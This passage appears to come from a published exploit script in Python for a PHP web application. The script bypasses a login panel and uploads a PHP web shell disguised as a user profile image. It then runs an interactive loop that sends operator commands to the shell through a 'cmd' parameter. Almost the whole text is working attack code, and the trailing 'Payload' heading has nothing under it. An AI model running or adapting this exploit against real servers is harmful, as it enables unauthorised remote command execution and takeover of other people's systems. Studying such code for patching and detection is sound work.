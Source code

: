 ```python
    data = "------WebKitFormBoundaryxGKa5dhQCRwOodsq\r\nContent-Disposition: form-data; name=\"id\"\r\n\r\n"+ userid +"\r\n------WebKitFormBoundaryxGKa5dhQCRwOodsq\r\nContent-Disposition: form-data; name=\"firstname\"\r\n\r\n"+ firstname +"\r\n------WebKitFormBoundaryxGKa5dhQCRwOodsq\r\nContent-Disposition: form-data; name=\"lastname\"\r\n\r\n"+ lastname +"\r\n------WebKitFormBoundaryxGKa5dhQCRwOodsq\r\nContent-Disposition: form-data; name=\"username\"\r\n\r\n"+ username +"\r\n------WebKitFormBoundaryxGKa5dhQCRwOodsq\r\nContent-Disposition: form-data; name=\"password\"\r\n\r\n\r\n------WebKitFormBoundaryxGKa5dhQCRwOodsq\r\nContent-Disposition: form-data; name=\"img\"; filename=\""+ payload_name +"\"\r\nContent-Type: application/x-php\r\n\r\n" + payload_file +"\n\r\n------WebKitFormBoundaryxGKa5dhQCRwOodsq--\r\n"
    upload = session.post(request_url, headers=headers, cookies=cookies, data=data)            
    time.sleep(2)

    if upload.text == "1":
        print ("[+] Upload Shell\n")
        time.sleep(2)
        req = session.get(url + "/admin/?page=user")
        parser = BeautifulSoup(req.text, 'html.parser')
        find_shell = parser.find('img', {'id':'cimg'})
        print ("[+] Exploit Done!\n")

        while True:
            cmd = raw_input("$ ")
            headers = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36'}
            request = requests.post(find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
            print request.text.replace("<pre>" ,"").replace("</pre>", "")
            time.sleep(1)

    elif upload.text == "2":
        print ("[-] Try the manual method")
        request_url = url + "/classes/Login.php?f=logout"
        cookies = session.cookies.get_dict()
        headers = {"sec-ch-ua": "\";Not A Brand\";v=\"99\", \"Chromium\";v=\"88\"", "sec-ch-ua-mobile": "?0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
        session.get(request_url, headers=headers, cookies=cookies)
    else:
        print("[!]An unknown error")

else:
    print ("[-] Failed to bypass login panel")
```

## Payload
